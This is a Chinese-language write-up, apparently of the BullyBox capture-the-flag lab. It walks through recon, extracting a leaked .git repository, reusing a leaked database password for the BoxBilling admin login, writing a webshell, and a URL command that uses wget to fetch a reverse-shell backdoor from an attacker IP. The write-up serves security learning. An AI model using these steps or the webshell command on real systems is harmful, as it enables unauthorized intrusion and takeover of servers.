# 信息收集

## nmap



# 80端口

## exploit

去搜索一下该系统的漏洞，





但这个是需要拿到管理员权限，登录只能通过邮箱登录，先可以通过重置密码去测试一下管理员邮箱,猜测可能有几种格式,但是都不存在

> admin@bullybox.com
>
> admin@bullybox.local
>
> admin@boxbilling.com
>
> admin@boxbilling.local



## git泄露





其中`robots.txt`中的目录都不可以访问



访问.git目录回显403也禁止访问



可以使用一些提取git仓库的工具提取一下git泄露的内容

这里使用`git_extract`,工具地址：https://github.com/gakki429/Git_Extract



在git泄露的文件bb-config.php中有数据库连接账号密码



```
Playing-Unstylish7-Provided
```

但是找了一圈都没有找到管理员的邮箱，上网通过关键字查一下`boxbilling admin`，找到了boxbilling的帮助文档，其中说了admin管理页面是`bb-config.php`下的`admin_area_prefix`对应的地址，上图中最上面就有

[常见问题解答 — BoxBilling 4.21 文档 --- Faq — BoxBilling 4.21 documentation](./https://docs.boxbilling.com/en/latest/reference/faq.html#:~:text=BoxBilling admin area is located at url%3A http%3A%2F%2Fwww.yourdomain.com%2Findex.php%3F_url%3D%2Fbb-admin.,in bb-config.php file by editing value of admin_area_prefix.)



然后访问http://bullybox.local/index.php?_url=/bb-admin，这个页面才是管理员登录的页面，之前重置密码是客户使用的界面，在这里使用上面猜测的四个邮箱和数据库密码登录，最终使用`admin@bullybox.local`和数据库对应的密码可以成功登录



然后利用exp就可以命令执行，先根据exp中的示例写入phpinfo，然后直接在根目录下访问ax.php，就可以访问到phpinfo





可以成功写入内容了接下来写入一句话木马然后反弹shell





尝试了多个反弹shell的代码都不行，那就使用命令执行上传一个php反弹shell的后门，然后去访问这个后门达到反弹shell

```
http://bullybox.local/shell.php?cmd=wget%20http://192.168.45.248:8000/shell1.php
```





# 提权

该用户是有运行任何命令的权限的

